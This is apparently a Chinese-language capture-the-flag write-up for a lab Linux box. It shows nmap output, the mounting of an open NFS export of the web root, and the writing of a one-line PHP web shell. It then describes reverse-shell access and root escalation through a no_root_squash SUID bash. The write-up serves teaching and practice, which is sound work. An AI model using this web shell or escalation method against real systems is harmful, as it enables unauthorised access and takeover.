







## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Low |

## Nmap

```
[root@kali] /home/kali/Lower3  
❯ nmap 192.168.56.113 -sV -A -p- 

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
80/tcp    open  http     Apache httpd 2.4.56 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.56 (Debian)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36141/tcp   mountd
|   100005  1,2,3      46793/udp   mountd
|   100005  1,2,3      56285/tcp6  mountd
|   100005  1,2,3      57285/udp6  mountd
|   100021  1,3,4      37329/tcp6  nlockmgr
|   100021  1,3,4      39713/tcp   nlockmgr
|   100021  1,3,4      41715/udp   nlockmgr
|   100021  1,3,4      58173/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
36141/tcp open  mountd   1-3 (RPC #100005)
38315/tcp open  mountd   1-3 (RPC #100005)
39713/tcp open  nlockmgr 1-4 (RPC #100021)
41871/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 08:00:27:C5:C6:B4 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## NFS

发现了 **NFS（Network File System）** 共享，可能存在可挂载的远程文件系统。 `mountd`、`nlockmgr`、`nfs_acl` 这些 RPC 端口也被发现，表明服务器可能允许远程文件访问。

```
[root@kali] /home/kali  
❯ showmount -e 192.168.56.113                                                                                                                                                                                 ⏎

Export list for 192.168.56.113:
/var/www/html *
```

目标机器通过 **NFS（Network File System）** 共享了 `/var/www/html` 目录，并且对所有主机开放挂载权限。

因此可以上传一个**Webshell**

```
[root@kali] /home/kali  
❯ mkdir /mnt/nfs

[root@kali] /home/kali  
❯ mount -t nfs 192.168.56.113:/var/www/html /mnt/nfs

[root@kali] /mnt/nfs  
❯ echo '<?php system($_GET["cmd"]);?>' > shell.php 
```



然后反弹到**shell**



直接进入用户目录拿到**user.txt**



## Root

仍然是通过**NFS**来提权



其中**no\_root\_squash**配置表示：登入 **NFS** 主机使用分享目录的使用者，如果是 **root** 的话，那么对于这个分享的目录来说，他就具有 **root** 的权限！

下面是两个参考的文章

- [Linux 提权-NFS 共享 - 扛枪的书生 - 博客园](https://www.cnblogs.com/kqdssheng/p/18310245#id5.2)

- [Linux提权姿势二：利用NFS提权-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/1708369)

首先在**low**机器上把**bash**拷贝到当前目录，可以看到当前的拥有者是**low**



回到**kali**，由于我们是由**root**身份进行挂载的，因此对当前目录来说我们就是**root**！

只需要修改一下拥有者，然后赋予启动权限即可。



最后启动**bash -p**即可提升到**root**



## Summary

这个靶机比较简单，就是通过**NFS**来获取到**low**用户，再通过**kali**的**root**挂载，提升到**root**权限，就不多说了。
